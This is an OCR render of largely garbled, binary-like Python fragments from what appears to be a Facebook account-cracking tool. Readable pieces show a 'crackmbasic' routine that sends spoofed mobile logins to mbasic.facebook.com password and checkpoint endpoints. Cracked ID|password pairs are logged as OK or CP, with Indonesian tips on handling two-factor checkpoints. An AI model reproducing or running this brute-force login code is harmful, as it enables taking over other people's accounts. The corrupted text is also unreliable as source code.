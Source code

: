  d< | d= � t+d=� d>| � dK|
� dL|� �}t,|dMdA�}t-t,|dNdC�� td7 aW  n�d;t0v �rh|j!�"� }d� dOd� |	j!�"� �#� D ��}t.dJt1 dE��| d< |
 d< | d= � | }dP}t�� }|jdQ||dR�j}|jdS||dR�j}|dT7 }t�2dUt|��}d}|D ]}|dV|� dW|dX � dY|d � dZ�7 }|d7 }�q�dX}|d[7 }t�2dUt|��} dX}| D ]}|d7 }|d\|� dW|dX � dY|d � d]�7 }�q't+d=� d^| � dK|
� dL|� d_|� �}t,|dMdA�}t-t,|d`dC�� td7 aW  nnW qKW qK tj3j4�y}   t5�6da� Y qKw td7 ad S )bNr   rQ  r  rR  rS  rT  r�   rO  rO   z�text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9r  r  r  r�   )
r  r�   rP  r�   r�   r�   r  r  r  r�   rU  r  r  r   r   z.https://mbasic.facebook.com/login/save-device/r"  r#  r'  c                 S   r(  r)  rL   r*  rL   rL   rM   r.  \  r/  zcrackmbasic.<locals>.<listcomp>r0  r  r�   z	sec-ch-uaz(" Not A;Brand";v="99", "Chromium";v="98"rP  zsec-ch-ua-platformz	"Android"r�   r�   r�   r�   r1  r�   r�   r  ZXMLHttpRequestr  r  r  r�   r  zgzip, deflate, brr�   z#fr_FR,fr;q=0.9,en-US;q=0.8,en;q=0.7Z
connection�closezHhttps://mbasic.facebook.com/login/device-based/validate-password/?shbl=0ri   Fr4  r6  r�   r�   r<   rV  rW  rn   ro   rX  rY  rZ  rJ   r7  r[  r�   c                 S   r(  r)  rL   r*  rL   rL   rM   r.  r  r/  r^  r\  r]  r�   r�   c                 S   r(  r)  rL   r*  rL   rL   rM   r.  |  r/  r�   r_  r`  ra  rb  rc  rd  r�   r   r   re  rf  rg  rh  ri  rj  rk  r�   )7r�   r�   r^   r�   rl  r�   r�   r�   r8  r�   r�   r<  r@   r;  rB   r�   rY   rZ   rH   r  r  r�   rG   r�   r[   r�   r�   rC   rE   r�   rD   r�   r=  rk   r>  r?  r@  rA  rm  rB  rA   rn  ro  r   r�   r�   r=   r�   rp  r�   rF   rw   rx   r\   r]   )!r  r  rq  rr  rs  rG  rH  rI   rE  r�   rF  r�   rI  rJ  rK  rL  rt  ru  rv  rM  rN  rw  rx  ry  rz  rD  r{  r|  r}  r~  r  r�  r�  rL   rL   rM   r  L  s�   


6
":z

 


(

($(���r  c                 C   s�  d}ddddd|ddd	d
ddd
ddd�}t �� }z�|�d�}t|jd| |dd�|dd�jd�}|�d�}i }g d�}	|d�D ]}
|
�d�|	v rT|�|
�d�|
�d�i� q>t|jdt|d � ||d�jd�}t	dt
| |tf � tdt
 d ��| d! | d" � td#7 a|�d$�}t|�d%kr�t	d&ttf � W d S |D ]}
t	d't|
jtf � q�W d S  ty� } z-t	dt
| |tf � t	d(ttf � tdt
 d ��| d! | d" � td#7 aW Y d }~d S d }~ww ))Nz�Mozilla/5.0 (Linux; Android 8.1.0; HUAWEI Y7 PRIME 2019 Build/5887208) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]rT  r�   rO   r�   r1  �|text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9r
  r  �navigaterO  r  �:https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8�
gzip, deflater�   r2  �%https://mbasic.facebook.com/login.phpr   �Zemailr&  rd   T�r�   r�   r5  r�   �form�Znhr$  Zfb_dtsgzsubmit[Continue]Zcheckpoint_datar�   rl   r-  �action�r�   r�   �
%s++++ %s|%s ----> CP       %sr�   rJ   r�   r<   r   �optionr   �2
%s---> Tap Yes / A2F (Cek Login Di Lite/Mbasic%s)�
%s---> %s%sz>